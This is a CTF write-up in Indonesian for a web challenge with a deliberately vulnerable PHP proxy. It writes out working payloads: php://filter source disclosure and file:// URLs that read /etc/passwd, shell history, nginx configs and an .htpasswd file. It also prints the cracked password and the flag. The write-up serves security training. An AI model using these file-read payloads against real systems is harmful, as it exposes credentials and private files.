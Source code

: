 ```yaml
---
layout: post
title: 'FIT FUNFEST 2017 : Proxy'
description: Writeup Proxy FIT FUNFEST CTF
modified: 2017-03-16
date: 2017-03-16
category: CTF
tags: [FITCTF,Web Exploitation]
imagefeature: /images/fit-funfest.png
mathjax: false
chart: null
comments: true
featured: true
published: true
private: 'false'
---
```



### Soal

```
http://128.199.66.146:12121/proxy/
```

### Solusi

Diberikan website seperti layanan proxy kita bisa mengakses website lain melalui
layanan tersebut kemudian kita memanfaatkan Wrappers yang tidak di blacklist
untuk membaca file config dan menemukan folder secret yang di authentikasi
dengan Basic HTTP Authentication kami melakukan decrpyt password .htpasswd
yang di gunakan algoritma {SHA} kemudian kami mengauthentikasi dan
mendapatkan flag

Setelah melakukan analisa kepada layanan yang tersedia yaitu proxy untuk
membuka website di input field nya ada placeholder http atau https tapi ternyata ada beberapa wrappers yang masih bisa di gunakan karena tidak di disable atau di blacklist. Pertama kita bisa mendapatkan source code layanan proxy dalam base64 dan melakukan decode untuk membaca source code aslinya dengan command

`curl http://128.199.66.146:12121/proxy/?url=php://filter/convert.base64-encode/resource=index.php | base64 -d > index.php`

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
$url = $_GET['url'];
if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
die('Not a valid URL');
}
$content = file_get_contents($url);
die($content);
}
?>
<header>
<title>Proxy</title>
<link
href='http://fonts.googleapis.com/css?family=Open+Sans+Condensed:300'
rel='stylesheet' type='text/css'>
<style type="text/css">
.form-style-8{
font-family: 'Open Sans Condensed', arial, sans;
width: 500px;
padding: 30px;
background: #FFFFFF;
margin: 50px auto;
box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-moz-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-webkit-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
}
.form-style-8 h2{
background: #4D4D4D;
text-transform: uppercase;
font-family: 'Open Sans Condensed', sans-serif;
color: #797979;
font-size: 18px;
font-weight: 100;
padding: 20px;
margin: -30px -30px 30px -30px;}
.form-style-8 input[type="text"],
.form-style-8 input[type="date"],
.form-style-8 input[type="datetime"],
.form-style-8 input[type="email"],
.form-style-8 input[type="number"],
.form-style-8 input[type="search"],
.form-style-8 input[type="time"],
.form-style-8 input[type="url"],
.form-style-8 input[type="password"],
.form-style-8 textarea,
.form-style-8 select
{
box-sizing: border-box;
-webkit-box-sizing: border-box;
-moz-box-sizing: border-box;
outline: none;
display: block;
width: 100%;
padding: 7px;
border: none;
border-bottom: 1px solid #ddd;
background: transparent;
margin-bottom: 10px;
font: 16px Arial, Helvetica, sans-serif;
height: 45px;
}
.form-style-8 textarea{
resize:none;
overflow: hidden;
}
.form-style-8 input[type="button"],
.form-style-8 input[type="submit"]{
-moz-box-shadow: inset 0px 1px 0px 0px #45D6D6;
-webkit-box-shadow: inset 0px 1px 0px 0px #45D6D6;
box-shadow: inset 0px 1px 0px 0px #45D6D6;
background-color: #2CBBBB;
border: 1px solid #27A0A0;
display: inline-block;
cursor: pointer;
color: #FFFFFF;
font-family: 'Open Sans Condensed', sans-serif;font-size: 14px;
padding: 8px 18px;
text-decoration: none;
text-transform: uppercase;
}
.form-style-8 input[type="button"]:hover,
.form-style-8 input[type="submit"]:hover {
background:linear-gradient(to bottom, #34CACA 5%, #30C9C9 100%);
background-color:#34CACA;
}
</style>
</header>
<body>
<div class="form-style-8">
<h2>PROXY</h2>
<form>
<input type="text" name="url" placeholder="http:// or https://" />
</form>
</div>
</body>
```

Kurang lebih source code tersebut seperti di atas 

Kemudian kami mencoba mencari cara untuk mendapatkan Remote Code Injection
karena kami belum menemukan lokasi flag berada.
Kami juga mencoba membaca beberapa file berikut dengan wrappers file://

```
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/passwd
http://128.199.66.146:12121/proxy/index.php?url=file:///home/web-x/.bash_history
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/hosts
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/default
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-x
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-y
```

Pada file /etc/nginx/sites-available/default kami melihat ada directory rahasia yang di
proteksi dengan ​ HTTP Basic Authentication

```
location /secret_page_uksw/ {
try_files $uri $uri/ =404;
autoindex on;
auth_basic "Restricted Content";
auth_basic_user_file /etc/nginx/.htpasswd;
}
```

Kita baca file .htpasswd nya dengan url berikut

`http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/.htpasswd`

isinya seperti ini 

`fit-uksw:{SHA}NABfMvw51MY+i1z+THOgpy9oysc=`

![dectypt-sha1-htpasswd.png](/images/dectypt-sha1-htpasswd.png)


Kemudian kami crack password yang ada pada .htpasswd tersebut sehingga di
temukan plain text dari password adalah “indonesia45”
Selanjutnya kita cari di mana folder /secret_page_uksw/ berada pertama coba di
http://128.199.66.146:12121/secret_page_uksw/ namun masih not found, kami
coba baca lagi konfigurasi nginx nya ternyata port nya ngak di custom, dia
menggunakan port default yang terletak pada http://128.199.66.146/secret_page_uksw/ Kemudian kami masukan username danpassword untuk basic authentication **fit-uksw:indonesia45**

![secret-page-proxy-flag.png]({{site.baseurl}}/images/secret-page-proxy-flag.png)

**FIT2017{not_only_know_web_bug_but_also_server_config}**
